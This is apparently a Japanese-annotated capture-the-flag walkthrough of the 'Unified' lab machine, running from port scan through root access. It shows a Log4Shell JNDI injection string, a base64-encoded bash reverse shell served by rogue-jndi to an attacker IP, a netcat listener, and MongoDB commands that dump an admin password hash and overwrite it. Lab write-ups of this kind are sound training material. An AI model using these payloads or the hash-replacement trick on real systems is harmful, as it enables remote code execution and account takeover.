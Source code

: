 # 1.Port Scan 
ip=10.129.210.188

sudo vi /etc/hosts

![9da3df8dd8cd6dc416c1e82117e3e88a.png](../_resources/9da3df8dd8cd6dc416c1e82117e3e88a.png)

 nmap -sC -sV $ip
 
![ba80298d1d930b14a8f360efa84083b8.png](../_resources/ba80298d1d930b14a8f360efa84083b8.png)

# 2. Web site

**URL: https://unified.htb:8443**

![4cf8963584f80a1960f668296ab4f8a9.png](../_resources/4cf8963584f80a1960f668296ab4f8a9.png)

## Burp suite

loginを試行

![65c6f346873451484eca7b5082e190e1.png](../_resources/65c6f346873451484eca7b5082e190e1.png)

`${jndi:ldap://192.168.11.50:1389/o=tomcat}`

![fe6004eae22a122a448615f95025e0bc.png](../_resources/fe6004eae22a122a448615f95025e0bc.png)

remerberを書き換え

![10984d8cc4c164c3648d1fd968834357.png](../_resources/10984d8cc4c164c3648d1fd968834357.png)

`sudo tcpdump -i tun0 port 389`

![93388df92ad329b634a8f5c1b41da642.png](../_resources/93388df92ad329b634a8f5c1b41da642.png)

burpsuiteからリクエストを送信

![a7ccce1439c8a72346694d4e93f97b35.png](../_resources/a7ccce1439c8a72346694d4e93f97b35.png)

![4e2d5bd337fb27b4aa83cc42a4f3b170.png](../_resources/4e2d5bd337fb27b4aa83cc42a4f3b170.png)

# 3.Rouge-jndi

`git clone https://github.com/veracode-research/rogue-jndi.git`

`sudo apt-get install maven` 

![cae9cc287e63c021fa1a0be0166ce58a.png](../_resources/cae9cc287e63c021fa1a0be0166ce58a.png)


echo 'bash -c bash -i >&/dev/tcp/10.10.16.18/4444 0>&1' | base64

![aac3742244cd5a2ba635fd64a06e2c8e.png](../_resources/aac3742244cd5a2ba635fd64a06e2c8e.png)

![d05c3dab7975af334cb2f3e053d6589e.png](../_resources/d05c3dab7975af334cb2f3e053d6589e.png)


出力したハッシュに書き換え

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.16.18" 

![faca2e2733f41e2f4d28b1c8d64120d5.png](../_resources/faca2e2733f41e2f4d28b1c8d64120d5.png)

![a754b94479dd3fbe3b1b2f00dbc3e7b5.png](../_resources/a754b94479dd3fbe3b1b2f00dbc3e7b5.png)

4444ポートを海保プ

`nc -lvnp 4444`

![fad8b33a8c4e1afacb1f1dcec05a803a.png](../_resources/fad8b33a8c4e1afacb1f1dcec05a803a.png)

burpsuiteからリクエストを送信

![1d1efa8a8ab4b59afe456dd3ad1c3d11.png](../_resources/1d1efa8a8ab4b59afe456dd3ad1c3d11.png)

![f9c831772b685640434900690581df7f.png](../_resources/f9c831772b685640434900690581df7f.png)


# 4.Get user.flag

`whoami`

`script /dev/null -c bash`

![716ec60f540f1503a5ded00a357e0b29.png](../_resources/716ec60f540f1503a5ded00a357e0b29.png)

`id`

`ls /home`

`ls /home/michael`

`cd /home/michael`

`cat user.txt`

![0347599d26a948162dda320aced17ca0.png](../_resources/0347599d26a948162dda320aced17ca0.png)

## mongo DB

ps aux |grep mongo

![9f993132975b5dc881dd3e211f2e57e5.png](../_resources/9f993132975b5dc881dd3e211f2e57e5.png)


![4a251341c53e99cadeb08f564061765b.png](../_resources/4a251341c53e99cadeb08f564061765b.png)

mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

x_shadow: "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."


![47b9218fe8d36c3a85b0339286157cc6.png](../_resources/47b9218fe8d36c3a85b0339286157cc6.png)

![67861a4c34521beb34a7b1a24657fd51.png](../_resources/67861a4c34521beb34a7b1a24657fd51.png)

`mkpasswd -m sha-512 password1234`     

$6$d2cMSHPZ1xD1IWwn$IsP5ELWJk3AaRTG1Z8UnWiMy7MRSkFiGoaYOg90hG0UwZsfDYVLWggksjXN9U7eEO9ZBdxP0PfOHaTbFbDvrh/

![f5c35b3f6bb3a2a625d47bb0b1d08b86.png](../_resources/f5c35b3f6bb3a2a625d47bb0b1d08b86.png)


![f3736ed1ab2bc5ada4d6efd52b602bd3.png](../_resources/f3736ed1ab2bc5ada4d6efd52b602bd3.png)

mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$d2cMSHPZ1xD1IWwn$IsP5ELWJk3AaRTG1Z8UnWiMy7MRSkFiGoaYOg90hG0UwZsfDYVLWggksjXN9U7eEO9ZBdxP0PfOHaTbFbDvrh/"}})'

![5b0da8f89ae677944c3db4598310afc9.png](../_resources/5b0da8f89ae677944c3db4598310afc9.png)


user: 6ced1a6a89e666c0620cdb10262ba127

# 5.Web site 

user:administrator
password:password1234

![3b46e7625b33d20eba3101b428133730.png](../_resources/3b46e7625b33d20eba3101b428133730.png)

rootuserとpasswordを確認

![e010b3dd47ff484856ade188efd63bc8.png](../_resources/e010b3dd47ff484856ade188efd63bc8.png)

`ssh root@$ip`

![cde6083b872e53b0f385d4fb50a63463.png](../_resources/cde6083b872e53b0f385d4fb50a63463.png)